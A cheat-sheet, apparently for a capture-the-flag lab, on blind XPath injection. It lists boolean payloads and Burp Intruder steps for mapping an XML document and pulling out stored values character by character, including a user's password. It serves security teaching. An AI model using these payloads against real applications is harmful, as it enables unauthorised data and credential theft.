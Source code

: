 # Step-by-step XPath exfiltration cheat-sheet (concise)

**Goal:** discover XML structure, element names, lengths, and exfiltrate text values (e.g., a flag) using boolean XPath tests.

---

## 1) Confirm injection is possible

Inject a tautology and look for a response difference.

Payload (concept):
`invalid' or '1'='1`
(Real payload must match the app’s quoting; you may need to escape/URL-encode.)

---

## 2) Discover root element name and length

* Root name length:
  `string-length(name(/*)) = N`
* Root name character at position `i`:
  `substring(name(/*), i, 1) = 'x' and '1'='1`

Example tests:
`string-length(name(/*)) = 8 and '1'='1`
`substring(name(/*),1,1) = 'a' and '1'='1`

---

## 3) Count child elements (discover how many child nodes)

* Count children of root (e.g., `/accounts`):
  `count(/accounts/*) = 2 and '1'='1`

* Count children of a specific child (e.g., first `<acc>`):
  `count(/accounts/acc[1]/*) = 2 and '1'='1`  (shows `username` and `password`)

---

## 4) Discover child *tag names* (length and characters)

* Length of first child tag name:
  `string-length(name(/accounts/*[1])) = 3 and '1'='1`
* Character checks:
  `substring(name(/accounts/*[1]), 1, 1) = 'a' and '1'='1`
  Repeat for positions 1..len to reconstruct the tag name (`acc`).

Remember: tag name extraction uses `name()`; content extraction uses the node itself.

---

## 5) Discover number of fields inside an element (e.g., inside `<acc>`)

* `count(/accounts/acc[1]/*) = 2`

---

## 6) Get length of an element’s text value (e.g., password)

* `string-length(/accounts/acc[1]/password) = 37 and '1'='1`

This returns the length of the **text content** of `/accounts/acc[1]/password`.

---

## 7) Extract characters one-by-one (value extraction)

* Character at position `i` of the password:
  `substring(/accounts/acc[1]/password, i, 1) = 'p' and '1'='1`
  Increment `i` from `1..length` to recover the whole string.

---

## 8) Practical payload template & encoding notes

* Typical injected HTTP parameter template (example if param is single-quoted in server XPath):
  `...param='invalid' or <XPATH_CONDITION> and '1'='1'...`
* Make sure to:

  * Match the surrounding quotes the application uses (single or double).
  * URL-encode and escape payloads when sending via HTTP (Burp Intruder or Repeater does this for you).
  * When automating with Intruder, use a numeric payload list for positions (1..N) and an alphabet list for characters.

---

## 9) Automation tip (Burp Intruder)

* Phase 1: find lengths with a numeric list (0..9) for `string-length(...)`.
* Phase 2: extract characters using a character set (a–zA–Z0–9 and symbols) as payloads for `substring(...,POS,1)`.
* Use distinct payload positions for `POS` and for which node index (`acc[1]` vs `acc[2]`).

---

## 10) Common pitfalls & fixes

* Distinguish **element name** vs **element value**: `name()` vs node string-value.
* XPath indexing starts at **1** (not 0).
* Some servers use XPath 1.0 — functions here are XPath-1.0 compatible.
* If tests always return true/false the same, check for server-side sanitization, different quote context, or application returning identical pages for both outcomes.

---

## 11) Clean example sequence

1. Confirm injection: `invalid' or '1'='1`
2. `string-length(name(/*)) = 8` → root name length 8
3. `count(/accounts/*) = 2` → two `<acc>` children
4. `string-length(name(/accounts/*[1])) = 3` → child tag length = 3 (`acc`)
5. `count(/accounts/acc[1]/*) = 2` → fields: `username`, `password`
6. `string-length(/accounts/acc[1]/password) = 37` → password length 37
7. `substring(/accounts/acc[1]/password,1,1) = 'H'` → first char; repeat to recover full password

